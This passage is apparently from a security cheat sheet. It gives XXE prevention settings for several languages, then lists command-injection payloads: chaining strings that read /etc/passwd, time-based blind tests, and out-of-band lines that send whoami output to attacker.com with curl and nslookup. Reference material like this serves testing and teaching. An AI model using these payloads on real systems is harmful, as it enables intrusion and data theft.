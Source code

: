 ### Prevention

```python
# Python - Disable external entities
import defusedxml.ElementTree as ET
tree = ET.parse('file.xml')

# Java - Disable DTDs
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);

# PHP - Disable external entities
libxml_disable_entity_loader(true);

# .NET - Secure settings
XmlReaderSettings settings = new XmlReaderSettings();
settings.DtdProcessing = DtdProcessing.Prohibit;
```

## 💻 Command Injection

### Attack Examples

**Basic Command Injection:**
```bash
# Vulnerable code: system("ping -c 4 " . $_GET['host']);

# Payloads:
; ls -la
&& whoami
| cat /etc/passwd
`whoami`
$(cat /etc/passwd)
```

**Command Chaining:**
```bash
; cat /etc/passwd
&& cat /etc/passwd  # Execute if previous succeeds
|| cat /etc/passwd  # Execute if previous fails
| cat /etc/passwd   # Pipe output
```

**Blind Command Injection:**
```bash
# Time-based detection
; sleep 10
&& ping -c 10 127.0.0.1

# Out-of-band
; curl http://attacker.com?data=$(whoami)
; nslookup `whoami`.attacker.com
```
